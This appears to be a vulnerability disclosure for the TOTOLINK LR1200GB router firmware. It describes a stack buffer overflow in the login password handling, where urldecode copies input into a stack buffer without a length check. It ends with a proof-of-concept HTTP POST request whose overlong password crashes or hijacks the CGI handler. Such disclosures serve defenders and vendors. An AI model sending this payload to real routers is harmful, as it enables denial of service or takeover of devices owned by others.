






# TOTOLINK LR1200GB V9.1.0u.6619_B20230130 Stack Overflow

## Product Information

Product: TOTOLINK LR1200GB
Firmware Version: V9.1.0u.6619_B20230130
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html



## Analysis

`v3` obtains the value from the `password` field input by the user and is processed in function `urldecode` . The processed result is stored in `v33` on stack.





As shown in the two images below, in the function `urldecode`, the processed `password` (`a1`) is written to a buffer (`a2`, `v3`) located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.





## POC

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 127.0.0.1
Content-Length: 408
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","verify":"0","flag":"0","topicurl":"loginAuth"}
```

